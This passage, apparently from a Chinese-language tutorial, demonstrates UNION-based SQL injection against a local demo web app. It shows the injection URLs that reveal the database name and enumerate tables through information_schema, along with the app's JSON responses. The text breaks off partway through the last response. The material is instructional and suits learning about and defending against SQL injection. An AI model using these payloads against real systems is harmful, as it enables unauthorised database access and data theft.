 ```
  "message": "OK",
  "data": {
    "HashID": "1",
    "Title": "2",
    "Content": "3",
    "HashIDQuery": "iryTrPab4l8' and 1=2 union select 1,2,3#",
    "SQL": "select hash_id, title, content from articles where hash_id='iryTrPab4l8' and 1=2 union select 1,2,3#'",
    "Err": ""
  }
}
```
and 1=2导致前一个select结果为空，再使用union暴露第二个select结果；

#### 第四步：暴库
```
http://127.0.0.1:8080/article?hashID=iryTrPab4l8' and 1=2 union select 1,2,database()%23

{
  "code": 0,
  "message": "OK",
  "data": {
    "HashID": "1",
    "Title": "2",
    "Content": "test",
    "HashIDQuery": "iryTrPab4l8' and 1=2 union select 1,2,database()#",
    "SQL": "select hash_id, title, content from articles where hash_id='iryTrPab4l8' and 1=2 union select 1,2,database()#'",
    "Err": ""
  }
}
```
通过database()函数确定数据库名为：test；

#### 第四步：暴表名
```
http://127.0.0.1:8080/article?hashID=iryTrPab4l8' and 1=2 union select 1,2,table_name from information_schema.tables where table_schema='test' limit 0,1%23
        
{
  "code": 0,
  "message": "OK",
  "data": {
    "HashID": "1",
    "Title": "2",
    "Content": "articles",
    "HashIDQuery": "iryTrPab4l8' and 1=2 union select 1,2,table_name from information_schema.tables where table_schema='test' limit 0,1#",
    "SQL": "select hash_id, title, content from articles where hash_id='iryTrPab4l8' and 1=2 union select 1,2,table_name from information_schema.tables where table_schema='test' limit 0,1#'",
    "Err": ""
  }
}
```
1、查询系统表需要root权限
2、通过系统表information_schema.tables和数据库名test，暴露了第一张表articles；<br>
3、递增limit，可以暴露出所有表名；<br>
```
http://127.0.0.1:8080/article?hashID=iryTrPab4l8' and 1=2 union select 1,2,table_name from information_schema.tables where table_schema='test' limit 1,2%23
        
{
  "code": 0,
  "message": "OK",
```